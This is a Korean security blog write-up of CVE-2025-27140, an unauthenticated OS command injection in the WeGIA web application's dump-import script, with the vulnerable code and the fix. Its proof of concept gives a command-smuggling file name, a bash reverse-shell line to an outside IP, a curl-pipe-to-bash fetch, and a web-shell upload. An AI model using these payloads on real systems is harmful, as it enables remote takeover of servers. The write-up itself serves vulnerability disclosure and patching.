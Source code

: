 ```yaml
---
title: "[하루한줄] CVE-2025-27140: WeGIA application의 parameter 검증 미흡으로 인한 RCE 취약점"
author: newp1ayer48
tags: [WeGIA, application, OS Command Injection, newp1ayer48]
categories: [1day1line]
date: 2025-02-28 18:10:00
cc: true
index_img: /img/1day1line.png
---
```


## URL

- https://github.com/LabRedesCefetRJ/WeGIA/security/advisories/GHSA-xw6w-x28r-2p5c

## Target

- WeGIA application 3.2.15 이하 버전

## Explain

기관을 대상으로 웹 통합 관리 시스템을 제공하는 WeGIA의 application에서 parameter 검증 미흡으로 인한 RCE 취약점이 발생하였습니다.

취약점은 `importar_dump.php` 내부에 아래 구문에서 발생합니다.

```php
$log = shell_exec("mv ". $_FILES["import"]["tmp_name"] . " " . BKP_DIR . $_FILES["import"]["name"]);
```

`shell_exec()` 함수를 통해 `mv` 명령어로 임시 파일을 이동하는 명령을 수행합니다.

여기서 parameter에 대한 검증이 미흡하기 때문에 Command Injection 취약점이 발생합니다. 

추가로 임시 파일을 이동하는 명령이기에 Reverse Shell 사용과 Web Shell 업로드도 가능합니다.

세션 검증 이후 리다이렉션 구문이 존재하나, 실행 종료 프로세스가 존재하지 않습니다.

```php
<?php
if (!isset($_SESSION["usuario"])){
    header("Location: ../../index.php");
}
```

이로 인해 별도의 로그인 과정이 없어도 임의의 코드 실행 및 파일 업로드 공격이 가능합니다.

PoC는 다음과 같습니다.

### 1. OS Command Injection

`sleep 5` 명령을 실행하는 Command Injection을 수행합니다.

`filename`에 `a` 이름으로 함께 담아 전달하면 `sleep 5` 명령이 수행 된 것을 확인 할 수 있습니다.

```
a;sleep 5
```


![](CVE-2025-27140/1.png)

### 2. Reverse shell 실행

아래와 같이 reverse shell을 빌드합니다.

`bash -i >& /dev/tcp/172.30.137.198/7777 0>&1`

`|`로 bash shell에 전달하면 reverse shell이 실행됩니다. 예시는 아래와 같습니다.

```
a;curl -L <your_page_responses_rev_shell_code> | bash
```

![](CVE-2025-27140/2.png)


### 3. Web Shell 업로드

Web Shell 업로드는 구현되어 있는 파일 업로드 기능을 이용하여 php Web Shell을 쉽게 업로드 할 수 있습니다.

PoC에서는 `l8BL.php`라는 이름으로 php Web Shell을 업로드했습니다.


![](CVE-2025-27140/3.png)

![](CVE-2025-27140/4.png)


해당 취약점은 escapeshellarg() 함수를 통해 command injection에 사용되는 특수 문자에 대해 이스케이프 하도록 보완했습니다.

![](CVE-2025-27140/5.png)

그리고 exit() 함수를 추가해 세션 검증 이후 종료 구문을 추가하여 보완 했습니다.

![](CVE-2025-27140/6.png)



## Reference

- https://nvd.nist.gov/vuln/detail/CVE-2025-27140
- https://github.com/LabRedesCefetRJ/WeGIA
